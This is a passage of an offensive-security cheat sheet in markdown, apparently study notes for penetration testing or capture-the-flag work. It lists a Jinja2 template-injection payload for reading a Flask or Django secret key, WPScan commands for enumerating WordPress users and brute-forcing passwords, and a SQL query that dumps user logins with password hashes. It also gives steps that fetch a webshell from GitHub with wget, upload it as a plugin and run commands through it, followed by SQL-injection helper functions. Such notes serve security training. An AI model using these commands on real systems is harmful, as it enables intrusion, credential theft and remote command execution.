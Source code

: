     {{/with}}
    ```

#### Jinja2 (Python)
- For flask, Django ......
- Secret key
    - `{{settings.SECRET_KEY}}`


### CMS
#### Wordpress
- WPScan
    - `wpscan --url {URL} --enumerate p,t,u --plugins-detection aggressive -t 30`
        - enumerate
            - p : plugin
            - t : theme
            - u : users
        - t : thread
    - `wpscan --url {url} --usernames {username} --passwords {password_file} -t 30`
- Enum user
    - `http://{ip}/index.php/?author=1`
- plugins path
    - `/wp-content/plugins/{plugin_name}`
- Password db
    - `SELECT concat(user_login,":",user_pass) FROM wp_users;`
- Config file (DB Pass)
    - `wp-config.php`
- Plugin Webshell
    - `wget https://raw.githubusercontent.com/jckhmr/simpletools/master/wonderfulwebshell/wonderfulwebshell.php`
    - `zip wonderfulwebshell.zip wonderfulwebshell.php`
    - Upload and Enable
    - `http://{doamin}/wp-content/plugins/wonderfulwebshell/wonderfulwebshell.php?cmd=ls`
### MySQL injection
- https://portswigger.net/web-security/sql-injection/cheat-sheet
#### SQL Command
- Limit
    - `LIMIT 0,1` , `LIMIT 1,1` , `LIMIT 2,1` ...
        - Select only 1 data
    - `LIMIT 1 OFFSET 0`, `LIMIT 1 OFFSET 1`
- Substring
    - `SUBSTRING("ABC",1,1)`
        - Will return `A`
    - `SUBSTRING("ABC",2,1)`
        - Will return `B`
- ASCII
    - `ASCII("A")`
        - Will Return `65`
- Concat
    - `concat(1,':',2)`
        - Will return `1:2`
- Group concat
    - `group_concat()`
    - Concatenate multiple data to one line string
- String Length
    - `length()`
- Row counts
    - `count()`
- Current db
    - `database()`
- Distinct item
    - `distinct()`